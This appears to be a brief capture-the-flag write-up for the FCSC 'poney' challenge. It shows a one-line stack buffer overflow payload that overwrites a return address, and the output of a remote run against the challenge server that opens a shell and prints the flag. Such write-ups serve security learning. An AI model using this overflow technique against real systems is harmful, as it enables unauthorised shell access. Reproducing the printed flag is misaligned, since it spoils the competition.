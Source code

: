 Local:
```(python -c 'print "A"*32+"\x76\x06\x40\x00\x00\x00\x00\x00"';cat) | ./poney ```

Remote : 

```powershell
python poney.py
[*] '/home/elweth/Documents/FCSC/poney'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to challenges1.france-cybersecurity-challenge.fr on port 4000: Done
Give me the correct input, and I will give you a shell:
>>>
[*] payload : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAv\x06\x00\x00\x00[*] Switching to interactive mode
 $ ls
flag
poney
$ cat flag
FCSC{725dd45f9c98099bcca6e9922beda74d381af1145dfce3b933512a380a356acf}
```
